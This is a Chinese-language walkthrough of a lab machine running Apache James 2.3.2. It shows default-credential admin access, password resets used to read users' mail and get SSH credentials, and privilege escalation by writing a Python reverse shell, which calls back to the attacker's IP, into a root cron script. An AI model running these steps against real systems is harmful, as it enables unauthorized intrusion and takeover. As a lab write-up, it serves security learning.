


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,25,80,110,119 192.168.10.23
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 01:10 EDT
Nmap scan report for 192.168.10.23
Host is up (0.0016s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (192.168.10.12 [192.168.10.12])
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
MAC Address: 00:0C:29:3D:09:B3 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## james邮箱系统利用

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ searchsploit  james 2.3.2
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)                                      | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                                                      | linux/remote/35513.py
Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2)                                            | linux/remote/50347.py
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ nc 192.168.10.23 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword john 123
Password for john reset
setpassword mindy 123
Password for mindy reset
setpassword mailadmin 123
Password for mailadmin reset
```

修改用户密码，得到如下邮件信息

mindy的邮件
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ telnet 192.168.10.23 110
Trying 192.168.10.23...
Connected to 192.168.10.23.
Escape character is '^]'.
USER+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready

-ERR
USER mindy
+OK
PASS 123
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security.

Respectfully,
James
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```
P@55W0rd1!2@

john的邮件
```bash
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John,

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

## 提权

ssh连mindy用户
```bash
mindy@solidstate:~$ ls -la
total 28
drwxr-x--- 4 mindy mindy 4096 Aug 22  2017 .
drwxr-xr-x 4 root  root  4096 Aug 22  2017 ..
-rw-r--r-- 1 root  root     0 Aug 22  2017 .bash_history
-rw-r--r-- 1 root  root     0 Aug 22  2017 .bash_logout
-rw-r--r-- 1 root  root   338 Aug 22  2017 .bash_profile
-rw-r--r-- 1 root  root  1001 Aug 22  2017 .bashrc
drwxr-x--- 2 mindy mindy 4096 Aug 22  2017 bin
-rw------- 1 root  root     0 Aug 22  2017 .rhosts
-rw------- 1 root  root     0 Aug 22  2017 .shosts
drw------- 2 root  root  4096 Aug 22  2017 .ssh
-rw------- 1 mindy mindy   34 Aug 22  2017 user.txt
mindy@solidstate:~$ cat user.txt
914d0a4ebc1777889b5b89a23f556fd75
```

但是这是个受限制的bash
```bash
mindy@solidstate:~$ python3
-rbash: python3: command not found
mindy@solidstate:~$ more
-rbash: more: command not found
mindy@solidstate:~$ bash
-rbash: bash: command not found
mindy@solidstate:~$ nc
-rbash: nc: command not found
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ id
-rbash: id: command not found
```

这时就要用到之前的rce了
在python脚本中加入bash反弹shell命令
当任意用户登录时就会将bash反弹回来
ps -aux|grep "root"

发现一个root用户的后台任务

用pspy32脚本发现了cron -f的进程
找到这个py脚本
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  210 May 10 04:30 tmp.py
```

```python
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.12",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' >tmp.py
```
输入python反弹shell
等shell弹回来

```bash
┌──(kali㉿kali)-[~/LPE]
└─$ nc -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.10.12] from (UNKNOWN) [192.168.10.23] 53502
root@solidstate:~# whoami
whoami
root
root@solidstate:~# ls /root
ls /root
root.txt
root@solidstate:~# cat /root/root.txt
cat /root/root.txt
b4c9723a28899b1c45db281d99cc87c9
root@solidstate:~#
```

